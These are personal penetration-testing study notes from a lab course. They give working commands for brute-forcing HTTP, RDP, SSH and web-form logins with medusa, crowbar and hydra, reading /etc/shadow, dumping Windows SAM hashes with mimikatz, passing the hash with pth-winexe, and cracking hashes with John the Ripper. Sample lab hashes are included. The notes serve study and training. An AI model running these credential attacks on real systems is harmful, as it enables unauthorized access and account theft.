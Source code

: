 ```yaml
---
title: Study Notes - 2021/07/06
date: 2021-07-06 21:40:32
tags: [Penetration Testing, Study Notes]
---
```



# HTTP htaccess password attack with medusa
decompress the rockyou wordlist:
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

# password Attack against Remote Desktop Protocal with crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1  
```

-n number of threads  
-b protocal  
-s host  
-u username  
-C wordlist  

rdp does not reliably handle multiple threads, so we use single thread 

# SSH Attack with THC-Hydra  
-l target username  
-P wordlist  
protocal://IP  
```
hydra -l kali -P test_wdlist.txt ssh://127.0.0.1
```



# HTTP post attack with THC-Hydra 
obtain addtional info about http-form-post options
```
hydra http-form-post -U 

<url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```
request verbose output with -vV, and use -f to stop the attack when the first successful result is found.

# Retrieve Password hashes
`hashid <hashvalue>` to identify hash type  

inspect /etc/shadow file 
```
sudo grep root /etc/shadow
```
```
root:$6$18cMHZ.mB57eU82l$lim7jazX00mXUZEB43IOtlHmpFcuTrceOJ1QObdaGr5fwsfsEryh5xcuJEpH7qOyiOmQHcGkn33vhy66GQDAi1:18696:0:99999:7:::
```
the first of which ($6) references the SHA-512 algorithm  
- $1 = MD5 hashing algorithm.
- $2 =Blowfish Algorithm is in use.
- $2a=eksblowfish Algorithm
- $5 =SHA-256 Algorithm
- $6 =SHA-512 Algorithm
18cMHZ.mB57eU82l the salt  

SAM database cannot be copied while the operating system is running because the Windows kernel keeps an exclusive file system lock on the file.

mimikatz modules facilitate password hash extraction from the Local Security Authority Subsystem (LSASS) process memory where they are cached.

```
C:\Tools\password_attacks\mimikatz.exe
> privilege::debug
> token::elevate
> lsadump::sam
```
token::elevate command to elevate the security token from high integrity (administrator) to SYSTEM integrity. If mimikatz is launched from a SYSTEM shell, this step is not required.  

use lsadump::sam to dump the contents of the SAM database

# Passing the hash in windows  
The Pass-the-Hash (PtH) technique (discovered in 1997) allows an attacker to authenticate to a
remote target by using a valid combination of username and NTLM/LM hash rather than a clear
text password. This is possible because NTLM/LM password hashes are not salted and remain
static between sessions. Moreover, if we discover a password hash on one target, we cannot only
use it to authenticate to that target, we can use it to authenticate to another target as well, as long
as that target has an account with the same username and password.

Security Accounts Manager (SAM)  

To do this, we will use pth-winexe from the Passing-The-Hash toolkit (a modified version of winexe), which performs authentication using the SMB protocol

```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

Question: what does "aad3b435b51404eeaad3b435b51404ee" do ? why there are two hashes?
aad3b435b51404eeaad3b435b51404ee: Empty LM HASH `<LM hash>:<NTLM hash>`    

NTLM hash algorithn:
```
MD4(UTF-16-LE(password))
```

Behind the scenes, the format of the NTLM hash we provided was changed into a NetNTLM
version 1 or 2 format during the authentication process. We can capture these hashes using
man-in-the-middle or poisoning attacks and either crack them or relay them

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html  

# Password cracking
recover clear text password from hash  
```
john hash.txt --format=NT
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```
```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

## use john with linux password  
```
grep victim /etc/passwd > test_pw.txt
sudo grep victim /etc/shadow > test_shadow.txt
unshadow test_pw.txt test_shadow.txt > test_unshadow.txt
john est_unshadow.txt
```

john need the unshadow format as input hash  

I created a victim user, but the hash type is $y$ which can not be cracked 